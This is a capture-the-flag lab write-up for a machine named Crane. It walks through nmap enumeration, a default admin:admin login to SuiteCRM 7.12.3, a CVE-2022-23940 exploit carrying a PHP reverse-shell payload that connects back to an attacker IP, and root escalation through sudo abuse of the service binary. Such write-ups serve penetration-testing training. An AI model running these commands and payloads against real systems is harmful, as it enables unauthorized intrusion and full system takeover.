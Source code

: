 # Linux - Crane

---

### Host Info Gathering

- We are given an intermediate machine called Crane, with IP of `192.168.241.146`. Use `nmap` to scan over it.
    
    ```bash
    > nmap -sCV -A -Pn -O -p- 192.168.241.146 -oN tcpnmap.md
    
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
    |   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
    |_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
    80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    | http-robots.txt: 1 disallowed entry 
    |_/
    | http-title: SuiteCRM
    |_Requested resource was index.php?action=Login&module=Users
    |_http-server-header: Apache/2.4.38 (Debian)
    3306/tcp  open  mysql   MySQL (unauthorized)
    33060/tcp open  mysqlx  MySQL X protocol listener
    Device type: general purpose
    Running: Linux 5.X
    OS CPE: cpe:/o:linux:linux_kernel:5
    OS details: Linux 5.0 - 5.14
    Network Distance: 4 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```
    

### Important Info

```bash
SuiteCRM v 7.12.3
```

### Initial Foothold

- `port 80` is open with http server, we can tried to visit it. We find the `suite CRM` page. Tried weak password `admin : admin` , we are able to get into the administration page.
    
    ![image.png](Linux%20-%20Crane%201b0553bebf0f8050a679e70377bab1eb/image.png)
    
    ![image.png](Linux%20-%20Crane%201b0553bebf0f8050a679e70377bab1eb/image%201.png)
    
    From “admin” → “about”, we can find version information.
    
    ![image.png](Linux%20-%20Crane%201b0553bebf0f8050a679e70377bab1eb/image%202.png)
    

- Google “SuiteCRM 7.12.3 exploit”, we find useful materials from - https://medium.com/@_crac/cve-2022-23940-rce-in-suitecrm-90df53980d8c.
    
    In this article, CVE-2022-23940 is mentioned - https://github.com/manuelz120/CVE-2022-23940?tab=readme-ov-file
    

- Download the `exploit.py` file and execute as instructed. As Github instructed, we can use the exploit to get a reverse shell. Now we are `www-data` as low-privilege user.
    
    ```bash
    > rlwrap nc -lvnp 4444
    > ./exploit.py -h http://192.168.241.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.168\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
    
    - local.txt : eb59b848a1da6dd665a2ee075b090c74
    ```
    
    ![image.png](Linux%20-%20Crane%201b0553bebf0f8050a679e70377bab1eb/image%203.png)
    
    ![image.png](Linux%20-%20Crane%201b0553bebf0f8050a679e70377bab1eb/image%204.png)
    

### Privilege Escalation

- By running `sudo -l` , we find that we can run `/usr/sbin/service` . Checking on `GTFOBins` , we can find some information.
    
    Use sudo method on `GTFOBins` , we can easily improve our privilege to `root` .
    

```bash
> sudo -l
> sudo service ../../bin/sh

> whoami
	: root
	
- proof.txt : 05c429b1dda0c619b2c174ff17f5969b
```

![image.png](Linux%20-%20Crane%201b0553bebf0f8050a679e70377bab1eb/image%205.png)

![image.png](Linux%20-%20Crane%201b0553bebf0f8050a679e70377bab1eb/image%206.png)

![image.png](Linux%20-%20Crane%201b0553bebf0f8050a679e70377bab1eb/image%207.png)

### Reference

- https://medium.com/@_crac/cve-2022-23940-rce-in-suitecrm-90df53980d8c
- https://github.com/manuelz120/CVE-2022-23940?tab=readme-ov-file
- https://gtfobins.github.io/gtfobins/service/